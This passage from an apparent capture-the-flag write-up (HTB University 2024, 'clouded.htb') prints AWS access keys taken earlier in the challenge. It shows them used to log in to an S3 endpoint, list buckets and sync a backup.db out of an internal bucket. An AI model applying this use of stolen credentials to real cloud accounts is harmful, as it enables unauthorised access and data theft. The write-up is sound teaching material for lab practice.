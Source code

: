 We will use the data we extracted above to login to the AWS bucket and list its content !

AWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA\
AWS_REGION=us-east-1\
AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL

![AWS login](/HTB-UNIVERSITY-2024/images/aws_login.png)

We can see that there is a folder containing all of the file uploaded since the beginning called “uploads” and another one called “clouded-internal”, in the second folder we find a database called backup.db so we download it:

`
$ aws --endpoint=http://local.clouded.htb/ s3 sync s3://clouded-internal .
download: s3://clouded-internal/backup.db to ./backup.db 
`

We open the .db file using sqlitebrowser:
